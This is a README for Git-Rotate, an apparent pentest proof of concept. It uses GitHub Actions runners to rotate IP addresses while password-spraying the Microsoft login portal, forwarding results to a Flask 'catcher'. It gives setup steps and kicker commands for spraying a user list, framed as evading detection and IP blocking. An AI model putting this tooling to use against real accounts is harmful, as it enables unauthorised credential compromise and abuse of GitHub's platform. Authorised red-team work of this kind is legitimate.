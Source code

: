 # Git-Rotate

Leveraging GitHub Actions for IP Rotation - for more information see the [following blog post](https://research.aurainfosec.io/pentest/git-rotate/).

The `Sprayer` and `Catcher` components are currently configured to target the Microsoft login portal and handle the response data. You'll need to modify these components to handle other targets and the response data received. Perhaps this could be made more modular in the future, but at the moments this is just a proof of concept.

GitHub takes abuse and spam of Actions seriously, and they have a dedicated team to track “spammy users.” I am not liable for any account closures due to breaches of their terms and conditions.

# Overview

The project is divided into three components; the `kicker`, the `sprayer`, and the `catcher`:

- **Kicker:** The kicker is a Python script responsible for creating and populating the workflow runs inside GitHub Actions. When generating the workflow run, it passes the relevant information, such as the target URL, username, password, and the IP address of the catcher. We can use GitHub [secrets](https://docs.github.com/en/actions/security-guides/using-secrets-in-github-actions) to pass 'sensitive' information to the workflow without exposing it in logs.

- **Sprayer:** The sprayer is a Python script executed by a GitHub Actions workflow run. It is responsible for sending a login request to the target endpoint (e.g., `https://login.microsoft.com/common/oauth2/token`) with a username and a password combination, retrieves the response from the login attempt, and forwards it to the catcher component. An IP address is randomly assigned to the VM executing the workflow run, ensuring that each request is sent with a unique IP address to evade detection.

- **Catcher:** The catcher is a Python Flask web server that receives and processes login response data sent by the sprayer component. It determines the success or failure of the login attempts and logs the data appropriately. Note: [Caddy](https://caddyserver.com/) is used as a reverse proxy in this setup to manage incoming requests and forward them to the Flask web server. It's simple to setup and handles TLS certificates, provides a convenient solution - ensuring secure communication between components.

- The `Target` can be any login endpoint you are performing password spraying against or whenever you are brute-forcing something and wanting to avoid IP-based blocking.

![overview](/images/overview.png)

# Getting Started

## Sprayer

Create a new GitHub repository and commit the Sprayer Python Script, Requirements.txt file, and GitHub Workflow YAML file:

```
sprayer
├── .github
│  └── workflows
│     └── sprayer.yml
├── requirements.txt
└── sprayer.py
```

The workflow is configured to run on the `workflow_dispatch` event, meaning it can be triggered using the REST API.

## Catcher

I'd recommend using a secure communication protocol such as HTTPS when sending the login response data from the Sprayer to the Catcher (this is not the default).

Ensure the `Catcher.py` Python script is on the host and install the requirements. 

### With TLS (Recommended):

Use something like [Caddy as a reverse proxy](https://caddyserver.com/docs/quick-starts/reverse-proxy). Here is a sample Caddyfile - change the `path`, `domain name`, and `port` for the Catcher as needed.

```
example.com {
    header {
        -Server
    }
    
    @notWowAmazing {
        not path /wow-amazing
    }

    handle @notWowAmazing {
        respond "Not Found" 404
    }

    handle {
        reverse_proxy localhost:5000
    }
}

```

You can change the interface to bind on to localhost only and change the path:

```
...
@app.route("/wow-amazing", methods=["POST"])
def handle_post_data():
    data = request.get_json()
    username = data.get("username")
...

if __name__ == "__main__":
    app.run(host="127.0.0.1", port=5000)
```

Start the Catcher flask web app: 

```
python3 catcher.py
```

### Without TLS (Not recommended):

Bind on all interfaces and change the path:

```
...
@app.route("/wow-amazing", methods=["POST"])
def handle_post_data():
    data = request.get_json()
    username = data.get("username")
...

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5000)
```

Start the Catcher flask web app: 

```
python3 catcher.py
```

## Kicker

The Kicker script requires a GitHub Fine-grained access token with the following Repository permissions:

```
actions: read & write
secrets: read & write
```

![access token permissions](images/access_token_permissions.png)


Modify the `config.ini` file with your GitHub account detials.

```
[GitHub]
owner = <your-username>
repo = <your-repo-name>
token = <fine-grained-access-token>
```


Install the requirements for the Kicker Python script and pass the required arguments. For example:

If your catcher is using HTTPS:

```
python3 kicker.py -u user-list.txt -p "Password123" -c https://example.com/wow-amazing -s
```

If your catcher is using HTTP:

```
python3 kicker.py -u user-list.txt -p "Password123" -c http://example.com/wow-amazing
```


# Demo

[![demo](https://img.youtube.com/vi/sxo5E6n-T9o/0.jpg)](https://www.youtube.com/watch?v=sxo5E6n-T9o)


# Acknowledgements

Thanks to my employer <a href='https://www.aurainfosec.com/'>Aura Information Security</a> for providing time for me to work on this project. 

![aura-logo](https://user-images.githubusercontent.com/27876907/188373880-8157648c-eb94-4054-81c8-7c61692b0367.png)
